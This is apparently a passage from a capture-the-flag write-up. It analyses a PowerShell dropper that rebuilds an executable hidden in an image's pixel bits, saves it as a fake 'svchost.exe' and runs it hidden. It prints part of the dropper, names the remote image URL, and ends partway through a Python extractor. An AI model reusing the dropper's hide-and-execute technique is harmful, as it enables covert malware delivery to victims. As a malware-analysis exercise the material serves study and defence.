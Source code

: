 ```powershell
$payloadLen = [BitConverter]::ToInt32($sizeBytes, 0)
$payload = New-Object byte[] $payloadLen
for ($b = 0; $b -lt $payloadLen; $b++) {
    $payload[$b] = BitsToByte $bits (32 + $b * 8)
}
$dir = Join-Path $env:LOCALAPPDATA 'temp'
$outFile = Join-Path $dir 'svchost.exe'
[System.IO.File]::WriteAllBytes($outFile, $payload)
Start-Process -FilePath $outFile -WindowStyle Hidden
```
In a nutshell this script is - 
- Downloading an image from a remote server.
- Extracting hidden data from the least significant bits (LSBs) of the image’s pixels.
- Reconstructs a binary executable from the hidden data.
- Saves it to disk as `svchost.exe`.
- Silently executes the hidden payload.

We see that there are 2 Important things

 1. `https://verifycert.task.sasc.tf/flag.png`
 2. `$outFile = Join-Path $dir 'svchost.exe'`

Even if we don't dive deep into understanding the PowerShell script at first , we know that whatever is happening , its going to lead us to `svchost` so i decided to check out our flag.png url and well well well! just how i thought that we would run into a rabbit hole , we did. 

![image.png](image%203.png)

Well this is what i thought at first at least but after reading the rest of the PowerShell code, we can determine that this png is used to get `svchost.exe` so i download the file and  asked GPT to write a script to extract the exe from the image based on what we understand from the script.
 
```python
#!/usr/bin/env python3
import os
import requests
from io import BytesIO
from PIL import Image

def bits_to_byte(bits, start_index):
    """Convert 8 bits in little-endian order starting at start_index into one byte."""
    val = 0
    for i in range(8):
        if bits[start_index + i]:
            val |= (1 << i)
    return val

def main():
    # 1) Download the PNG
    url = 'https://verifycert.task.sasc.tf/flag.png'
    resp = requests.get(url)
    resp.raise_for_status()
    print('open image')
    # 2) Load into a PIL image
    img = Image.open(BytesIO(resp.content)).convert('RGB')
    width, height = img.size
    print('Getting lsb')
    # 3) Extract LSBs of red channel into a flat list of 0/1
    bits = []
    for y in range(height):
        for x in range(width):
            r, _, _ = img.getpixel((x, y))
            bits.append(r & 1)

    # 4) First 32 bits = little-endian 4-byte payload length
```